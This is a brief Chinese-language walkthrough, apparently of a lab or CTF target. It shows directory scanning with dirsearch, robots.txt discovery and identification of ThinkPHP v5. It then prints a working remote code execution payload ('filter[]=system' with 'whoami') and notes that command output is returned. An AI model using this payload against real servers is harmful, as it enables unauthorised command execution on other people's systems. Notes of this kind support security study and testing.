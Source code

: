 ![img](./assets/wps349.jpg)

dirsearch扫描

 

![img](./assets/wps350.jpg) 

存在robots.txt

访问

![img](./assets/wps351.jpg) 

访问该路径

 

![img](./assets/wps352.jpg) 

ThinkPHP v5框架

搜索该框架漏洞

poc：

 

?s=captcha

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami

 

![img](./assets/wps353.jpg) 

存在回显

![img](./assets/wps354.jpg) 

 

 